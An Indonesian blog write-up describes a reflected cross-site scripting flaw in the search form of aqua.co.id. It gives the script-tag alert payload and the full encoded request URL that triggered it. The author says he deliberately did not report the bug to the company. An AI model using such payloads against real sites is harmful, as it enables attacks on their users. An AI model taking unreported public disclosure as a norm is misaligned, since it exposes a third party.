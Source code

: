 ```yaml
---
title: "Cross Site Scripting on Aqua.co.id"
author: "Tan"
tags: ["XSS", "WriteUP", "Web"]
date: 2019-08-24T01:51:50+07:00
draft: false
---
```


Berjumpa lagi, masih bermain main dengan XSS, kali ini saya mendapat sebuah website bernama Aqua, ya pasti kalian pada tahu dong, Aqua adalah sebuah anak perusahaan dari `Danone` yang berjalan pada sentra air minum.

[![logo-aqua](https://i.postimg.cc/pVg1bGqc/image.png)](https://postimg.cc/QVJqcbLc)

Kebetulan saya bekerja sebagai admin di sebuah CV yang bekerja sama dengan Aqua sebagai mitra utamanya. Kalian bisa mengunjungi website [aqua.co.id](https://aqua.co.id/) untuk mendapatkan informasi lebih lanjut tentang perusahaan ini.

*Lho kok ga di laporkan aja lur?* Intinya saya males **mereport** bug seperti ini, endingnya hanya di anggap remeh saja sama mereka, kan kata **mereka** XSS hanya hal sepele hihi, jadi males aja gitu lur. Mending di WriteUP dan untuk saling share pengalaman.

Oke menuju topik utama, setelah iseng mengunjungi halaman [aqua.co.id](https://aqua.co.id) saya mendapatkan from pencarian, nah  disitu saya mendapat ide untuk melakukan XSS.

[![From Pencarian di aqua.co.id](https://i.postimg.cc/3JTCFPLh/image.png)](https://postimg.cc/SjgMytF1)

Saya mencoba memasukkan `"><script>alert(1337);</script>` tetapi yang muncul halaman berikut, awalnya saya merasa gagal.

[![gagal](https://i.postimg.cc/Dwsh34rL/image.png)](https://postimg.cc/Wd2CM3f1)

Lalu mencoba meremove *search* pada url dari :
```
https://aqua.co.id/search?_token=Pt6XdGZA2MyJqSY3RuT33O9ThJB0svRVqtiYE3Dn&query=%22%3E%3Cscript%3Ealert%281337%29%3B%3C%2Fscript%3E
```
menjadi
```
https://aqua.co.id/?_token=Pt6XdGZA2MyJqSY3RuT33O9ThJB0svRVqtiYE3Dn&query=%22%3E%3Cscript%3Ealert%281337%29%3B%3C%2Fscript%3E
```
Dan boom akhirnya muncul juga popup **1337** yang saya dambakan, cieeee....

[![1337](https://i.postimg.cc/9fns4WYC/image.png)](https://postimg.cc/3y2tVQqc)

Tak lupa mencoba memunculkan **prompt** agar terdokumentasi bagi saya hehe.

[![XSS on Aqua.co.id](https://i.postimg.cc/XqZKDbRN/XSS-aqua.png)](https://postimg.cc/fSN0J6W1)

Iseng lagi coba coba ternyata bisa render html juga.

[![SC](https://i.postimg.cc/zfgFj81J/image.png)](https://postimg.cc/7CqzPv6c)

Sekian writeup dari saya, jika ada kesalahan kata saya minta maaf. Terima kasih